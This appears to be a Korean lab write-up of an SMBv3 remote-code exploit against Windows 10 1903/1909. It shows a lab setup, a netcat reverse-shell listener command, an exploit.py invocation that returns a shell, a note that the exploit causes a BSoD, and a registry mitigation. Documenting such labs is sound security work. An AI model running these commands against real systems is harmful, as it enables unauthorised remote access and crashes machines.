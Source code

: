 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type       | OS                                  | Build                   | Core | RAM  | IP              | App          |
| :---       | :---                                | :---                    | :--- | :--- | :---            | :---         |
| Victim     | Windows 10 1903</br>Windows 10 1909 | 18362.356</br>18363.418 | 1    | 4GB  | 192.168.108.149 |              |
| Attacker   | Windows 10 21H1                     | 19043.1706              |      |      | 192.168.0.32    | [exploit.py]() |

# **Setting**

SMB 사용 허용

![](images/2022-05-18-22-11-02.png)


# **Exploit**

세션 대기

    nc64.exe -nvlp [reverse port] -s [reverse ip]

![](images/2022-05-18-22-15-28.png)

exploit.py 실행

    python exploit.py [target ip] [reverse ip] [reverse port]

![](images/2022-05-18-22-15-44.png)

쉘 획득

![](images/2022-05-18-22-15-54.png)


# **etc**

process tree 확인

![](images/2022-05-18-22-16-07.png)

![](images/2022-05-18-22-16-13.png)
![](images/2022-05-18-22-16-17.png)

패킷 확인

![](images/2022-05-18-22-16-24.png)

exploit.py을 끝내면 BSoD 발생

![](images/2022-05-18-22-16-42.png)

SMBv3 비활성화

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force
```